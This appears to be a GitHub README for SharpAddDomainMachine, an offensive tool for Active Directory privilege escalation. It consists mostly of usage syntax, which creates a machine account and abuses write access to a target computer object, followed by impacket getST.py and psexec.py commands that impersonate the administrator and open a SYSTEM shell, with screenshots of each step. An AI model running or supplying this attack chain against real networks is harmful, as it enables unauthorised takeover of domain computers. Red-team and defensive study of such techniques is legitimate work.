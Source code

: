# SharpAddDomainMachine
## Description
The same script as [SharpAllowedToAct](https://github.com/pkb1s/SharpAllowedToAct), but more usefully for local privilege escalation.

## Usage
```
SharpAddDomainMachine

SharpAddDomainMachine.exe domain=domain.com dc=192.168.1.1 tm=target_machine_name ma=machine_account mp=machine_pass

domain: Set the target domain.
dc:     Set the domain controller to use.
tm:     Set the name of the target computer you want to exploit. Need to have write access to the computer object.
ma:     Set the name of the new machine.(default:random)
mp:     Set the password for the new machine.(default:random)
```

After successful attack use impacket to get system:
```
getST.py -dc-ip dc_ip domain.com/ma:mp -spn cifs/tm.domain -impersonate administrator
export KRB5CCNAME=administrator.ccache
psexec.py domain/administrator@tm.domain -k -no-pass
```

exploit:
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200321153023.png)
get ccache:
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200321153107.png)
get system:
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200321153123.png)